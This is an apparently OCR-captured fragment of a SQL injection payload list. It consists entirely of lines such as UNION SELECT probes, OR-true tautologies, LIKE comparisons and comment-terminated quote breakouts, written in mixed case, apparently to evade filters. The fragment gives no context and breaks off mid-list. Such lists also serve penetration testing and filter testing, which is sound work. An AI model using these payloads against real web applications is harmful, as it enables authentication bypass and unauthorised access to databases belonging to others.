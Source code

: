                 "UniON(SElecT(1),2,3)#
                "UniON(SElecT(1),2,3,4)#
                "UniON(SElecT(1),2,3,4,5)#
                '||'2
                '||2-- 2
                '||'2'||'
                '||2#
                '||2/*
                '||2||'
                "||"2
                "||2-- 2
                "||"2"||"
                "||2#
                "||2/*
                "||2||"
                '||'2'='2
                '||'2'='2'||'
                '||2=2-- 2
                '||2=2#
                '||2=2/*
                '||2=2||'
                "||"2"="2
                "||"2"="2"||"
                "||2=2-- 2
                "||2=2#
                "||2=2/*
                "||2=2||"
                '||2=(2)LimIT(1)-- 2
                '||2=(2)LimIT(1)#
                '||2=(2)LimIT(1)/*
                "||2=(2)LimIT(1)-- 2
                "||2=(2)LimIT(1)#
                "||2=(2)LimIT(1)/*
                '||true-- 2
                '||true#
                '||true/*
                '||true||'
                "||true-- 2
                "||true#
                "||true/*
                "||true||"
                '||'2'LiKE'2
                '||'2'LiKE'2'-- 2
                '||'2'LiKE'2'#
                '||'2'LiKE'2'/*
                '||'2'LiKE'2'||'
                '||(2)LiKE(2)-- 2
                '||(2)LiKE(2)#
                '||(2)LiKE(2)/*
                '||(2)LiKE(2)||'
                "||"2"LiKE"2
                "||"2"LiKE"2"-- 2
                "||"2"LiKE"2"#
                "||"2"LiKE"2"/*
                "||"2"LiKE"2"||"
                "||(2)LiKE(2)-- 2
                "||(2)LiKE(2)#
                "||(2)LiKE(2)/*
                "||(2)LiKE(2)||"
                ')oR('2
                ')oR'2'-- 2
                ')oR'2'#
                ')oR'2'/*
                ')oR'2'oR('